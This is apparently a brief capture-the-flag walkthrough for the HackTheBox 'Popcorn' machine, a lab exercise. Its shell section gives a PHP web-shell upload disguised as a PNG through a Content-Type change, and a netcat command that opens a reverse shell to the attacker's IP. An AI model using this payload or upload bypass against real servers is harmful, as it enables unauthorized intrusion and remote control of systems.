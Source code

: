 # popcorn-hackthebox

### Discover

`dirb http://10.10.10.6 /usr/share/wordlists/dirb/big.txt` 

### Shell

Instantiate a shell on your Kali:

```sh
nc -l -p 4444
```

Upload a `test.png.php` file, intercepting with Burpsuite and changing the `Content-Type` to `image/png`, containing:

```php
<?php echo system('nc -e /bin/sh {KALI_IP_ADDRESS} 4444');
```

Now find the image in the HTML page and use to connect to your shell.

Flag can be found in `/home/george`.

### Root

Once you're in, copy the `pam.sh` script, and execute to gain root.

